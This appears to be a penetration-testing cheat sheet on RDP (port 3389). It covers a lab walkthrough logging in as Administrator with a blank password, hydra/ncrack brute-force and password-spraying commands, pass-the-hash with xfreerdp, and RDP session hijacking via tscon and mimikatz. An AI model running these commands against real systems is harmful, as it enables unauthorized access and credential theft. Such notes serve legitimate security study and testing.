 ```yaml
---
title: 3389 RDP
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - rdp
  - port 3389
  - mimikatz
---
```


# 3389 rdp

## Description

source: https://book.hacktricks.xyz/network-services-pentesting/pentesting-rdp

Basic information about RDP service: Remote Desktop Protocol (RDP) is a proprietary protocol developed by Microsoft, which provides a user with a graphical interface to connect to another computer over a network connection. The user employs RDP client software for this purpose, while the other computer must run RDP server software (from here).


| Name | Description |
| ---- | ----------- |
| port | 3389/TCP | 
| state | open |
| service | ms-wbt-server |   
| version | Microsoft Terminal Services |
| Banner | rdp-ntlm-info |


## Enumeration: 

To check the available encryption and DoS vulnerability (without causing DoS to the service) and obtains NTLM Windows info (versions).

```bash
nmap -Pn -sV -p3389 --script rdp-*  IP
```

Results:
```
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-enum-encryption:
|   Security layer
|     CredSSP (NLA): SUCCESS
|     CredSSP with Early User Auth: SUCCESS
|_    RDSTLS: SUCCESS
| rdp-ntlm-info:
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2022-11-11T12:16:26+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

One of the most long-standing and major features of Windows is Remote Desktop. To run Microsoft’s Remote Desktop Protocol (RDP) client, a command-line interface called Microsoft Terminal Services Client (MSTSC) is used.

As mentioned before, we will be using xfreerdp to connect from our Parrot Security virtual machine. You can check if you have xfreerdp installed by typing the command name in the terminal. If the script's help menu is output to the terminal, then you are ready to go. In the following screenshot, we have omitted a large part of the output for space considerations. The help menu for this script is vast, and you can find out much information about the functionality of each switch if you read through it.

If you need to install xfreerdp, you can proceed with the following command: 

```
sudo apt-get install freerdp2-x11
```

We can first try to form an RDP session with the target by not providing any additional information for any switches other than the target IP address. This will make the script use your own username as the login username for the RDP session, thus testing guest login capabilities.

```
#/v:{target_IP} : Specifies the target IP of the host we would like to connect to.
sfreerdp /v:10.129.1.13
```

As we can see from the output below, our own username is not accepted for the RDP session login mechanism. We can try a myriad of other default accounts, such as user , admin , Administrator , and so on. In reality, this would be a time-consuming process. However, for the sake of RDP exploration, let us attempt logging in with the Administrator user, as seen from the commands below. We will also be specifying to the script that we would like to bypass all requirements for a security certificate so that our own script does not request them. The target, in this case, already does not expect any. Let us take a look at the switches we will need to use with xfreerdp in order to connect to our target in this scenario successfully:

```
# /cert:ignore : Specifies to the scrips that all security certificate usage should be ignored.
# /u:Administrator : Specifies the login username to be "Administrator".
# /v:{target_IP} : Specifies the target IP of the host we would like to connect to.
sfreerdp /cert:ignore /u:Administrator /v:10.129.1.13
```

The output is different this time, and during the initialization of the RDP session, we are asked for a Password. In our case, the Administrator account has not been configured with a password for logging in for the sake of accessibility for the end-user. This is a severe mishap in configuration and will result in us, the attacker, gaining access to the machine without much effort. When prompted to enter the Password like in the output above, we can hit Enter to let the process continue without one. Following this, a large output will be displayed on our terminal before a remote desktop window is loaded. The flag we are looking for is located on the Desktop.

## Brute force

```
ncrack -vv --user <User> -P pwds.txt rdp://<IP>
hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
```
Be careful, you could lock accounts

## Password Spraying
Be careful, you could lock accounts
```
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

## Connect with known credentials/hash

```
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
```

Check known credentials against RDP services

rdp_check.py from impacket let you check if some credentials are valid for a RDP service:

```
rdp_check <domain>/<name>:<password>@<IP>
```

## Attacks

### Session stealing

With SYSTEM permissions you can access any opened RDP session by any user without need to know the password of the owner.

Get openned sessions:
```
query user
```

Access to the selected session
```
tscon <ID> /dest:<SESSIONNAME>
```

Now you will be inside the selected RDP session and you will have impersonate a user using only Windows tools and features.

Important: When you access an active RDP sessions you will kickoff the user that was using it.
You could get passwords from the process dumping it, but this method is much faster and led you interact with the virtual desktops of the user (passwords in notepad without been saved in disk, other RDP sessions opened in other machines...)

### Mimikatz

You could also use mimikatz to do this:
```
ts::sessions #Get sessions
ts::remote /id:2 #Connect to the session
```

Sticky-keys & Utilman
Combining this technique with stickykeys or utilman you will be able to access a administrative CMD and any RDP session anytime

You can search RDPs that have been backdoored with one of these techniques already with: https://github.com/linuz/Sticky-Keys-Slayer


### RDP Process Injection

If someone from a different domain or with better privileges login via RDP to the PC where you are an Admin, you can inject your beacon in his RDP session process and act as him:

### RDP Sessions Abuse

```
# Adding User to RDP group
net localgroup "Remote Desktop Users" UserLoginName /add
```

#### Shadow Attack

AutoRDPwn is a post-exploitation framework created in Powershell, designed primarily to automate the Shadow attack on Microsoft Windows computers. This vulnerability (listed as a feature by Microsoft) allows a remote attacker to view his victim's desktop without his consent, and even control it on demand, using tools native to the operating system itself.


https://github.com/JoelGMSec/AutoRDPwn

